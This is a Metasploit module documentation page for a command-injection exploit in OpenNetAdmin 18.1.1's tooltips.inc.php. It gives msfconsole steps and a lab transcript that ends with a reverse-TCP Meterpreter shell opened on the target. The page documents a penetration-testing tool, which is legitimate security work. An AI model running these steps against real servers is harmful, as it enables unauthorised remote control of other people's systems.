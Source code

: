 ## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.
This module exploits a command injection in OpenNetAdmin. The vulnerability exists on the `tooltips.inc.php` component, due to the insecure usage of the `shell_exec()` PHP function.

## Vulnerable Application

This module has been tested with [OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropiate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/linux/http/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Options

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well, even though it is set as optional.

## Scenarios

 Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf5 > use exploit/linux/http/opennetadmin_ping_cmd_injection
msf5 exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf5 exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf5 exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```
